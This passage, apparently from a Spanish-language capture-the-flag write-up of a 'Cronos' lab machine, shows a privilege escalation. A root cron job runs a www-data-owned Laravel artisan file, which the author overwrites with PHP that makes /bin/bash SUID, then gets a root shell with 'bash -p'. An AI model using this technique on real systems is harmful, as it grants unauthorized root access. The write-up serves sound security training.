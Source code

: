 ```bash
./usr/bin/pkexec
./usr/bin/newgidmap
./usr/bin/gpasswd
./usr/bin/passwd
www-data@cronos:/$ 
```

No vemos nada interesante, así que vamos a generar nuestro archivo de confianza [ProcMon](/posts/procmon) para ver si se está realizando una tarea a intervalos regulares (que debería ya que el nombre de la máquina da pista a *cron*)

```bash
www-data@cronos:/dev/shm$ ./procmon.sh 
> /usr/sbin/CRON -f
> /bin/sh -c php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
> php /var/www/laravel/artisan schedule:run
< /usr/sbin/CRON -f
< /bin/sh -c php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
< php /var/www/laravel/artisan schedule:run
> [kworker/u4:2]
^C
www-data@cronos:/dev/shm$ ls -l /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
www-data@cronos:/dev/shm$
```

Y vemos que se está ejecutando a través de php el recurso `/var/www/laravel/artisan` del cual nosotros como **www-data** somos propietario y podemos alterar su contenido; por lo tanto vamos a modificar su contenido a uno que nos permita convertirnos en **root** (suponiendo que dicho usuario es quien realiza la tarea).

```bash
www-data@cronos:/dev/shm$ cat /var/www/laravel/artisan
<?php
        system("chmod u+s /bin/bash");
?>
www-data@cronos:/dev/shm$
```

Ahora esperamos que el usuario **root** nos ejecute nuestro archivo y le otorgue permisos SUID a `/bin/bash`.

```bash
www-data@cronos:/dev/shm$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
www-data@cronos:/dev/shm$ bash -p
bash-4.3# whoami
root
bash-4.3#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
